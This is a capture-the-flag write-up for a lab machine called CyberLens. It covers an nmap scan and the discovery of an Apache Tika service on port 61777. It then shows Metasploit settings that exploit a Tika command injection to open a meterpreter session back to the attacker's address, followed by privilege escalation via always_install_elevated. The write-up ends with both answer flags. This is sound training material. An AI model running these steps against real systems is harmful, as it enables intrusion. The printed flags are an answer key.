 # CyberLens

### CyberLens
Be sure to add the IP to your /etc/hosts file: `sudo echo '10.10.46.248 cyberlens.thm' >> /etc/hosts`<br />
After an initial scan to check what ports are open, this is the result of a more targeted scan: 

    nmap 10.10.46.248 -p80,135,139,445,3389 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 20:14 CEST
    Nmap scan report for cyberlens.thm (10.10.46.248)
    Host is up (0.045s latency).
    
    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
    |_http-server-header: Apache/2.4.57 (Win64)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: CyberLens: Unveiling the Hidden Matrix
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: CYBERLENS
    |   NetBIOS_Domain_Name: CYBERLENS
    |   NetBIOS_Computer_Name: CYBERLENS
    |   DNS_Domain_Name: CyberLens
    |   DNS_Computer_Name: CyberLens
    |   Product_Version: 10.0.17763
    |_  System_Time: 2024-09-30T18:14:34+00:00
    |_ssl-date: 2024-09-30T18:14:42+00:00; -2s from scanner time.
    | ssl-cert: Subject: commonName=CyberLens
    | Not valid before: 2024-09-29T18:11:49
    |_Not valid after:  2025-03-31T18:11:49
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2024-09-30T18:14:37
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -2s, deviation: 0s, median: -2s

Opening the webserver, it seems like it is a service used to get metadata from files, specifically image files.<br />
![image](https://github.com/user-attachments/assets/eed84af8-6657-4663-9e1f-acb6e1439792)<br />
However, as you can see from the image above, one can also upload .sh files, and the service correctly labels it as sh application. 
However, after enumerating a bit the website and capturing requests with burpsuite, I noticed something interesting: <br />
![image](https://github.com/user-attachments/assets/169a4eb3-8c42-42d4-86d5-dbb990934eae)<br />
I'm making requests to port 61777 of the webserver. So I immediatly tried to scan that port to check what it is: <br />
![image](https://github.com/user-attachments/assets/18a324db-e21a-4301-acf3-d8b2a8e1a19b)<br />
Jetty is simply a web server. So I visited `cyberlens.thm:61777` to see what comes up:<br />
![image](https://github.com/user-attachments/assets/ccf85c00-4d99-4bd9-987f-057283d2d1f0)<br />
Apache Tika is an open source library used to detect and extract metadata from files. This page is apparently showing us the endpoints that we can use to interact with it. And here's an interesting endpoint: <br />
![image](https://github.com/user-attachments/assets/a6891ab3-01c4-4961-8bfe-6fd97d766fe6)<br />
![image](https://github.com/user-attachments/assets/7afb34cb-bc52-433f-80e1-b765a422ad8c)<br />
That endpoint gave me the version of the Tika software that's being used(PS, I just realized that this information was also given by the scan on port 61777, but I'm stupid). After some enumeration, I found out that this Tika version is vulnerable to command injection, and the exploit is available on metasploit. The module name is `windows/http/apache_tika_jp2_jscript`. 
Correctly set up the options, in my case: 

    set LHOST 10.11.85.53
    set rhosts 10.10.46.248
    set rport 61777
    run
And I got a meterpreter session. Inside `C:\Users\Cyberlens\Desktop` we can find user.txt(flags are at the end of this writeup): <br />
![image](https://github.com/user-attachments/assets/727249b4-5fee-43f9-9a8f-385aeb1a4f81)<br />
Can we get the administrator account?<br />
I decided to use a metasploit module called `multi/recon/local_exploit_suggester`, which tries to find vulnerabilities to escalate privileges within a meterpreter session. 

    multi/recon/local_exploit_suggester
    set session YOUR_SESSION
    run
And this is what it finds: <br />
![image](https://github.com/user-attachments/assets/24cf5fd1-7ceb-4bb0-853c-a82c2bca736f)<br />
So I tried to use the first one: 

    use windows/local/always_install_elevated
    set lhost 10.11.108.100
    set lport 4445
    set session 2
And I'm now the system user, and can locate the admin flag:
![image](https://github.com/user-attachments/assets/fce9e244-3653-4423-bdaa-15c8f22017aa)<br />



- What is the user flag?  `THM{T1k4-CV3-f0r-7h3-w1n}`
- What is the admin flag? `THM{3lev@t3D-4-pr1v35c!}`
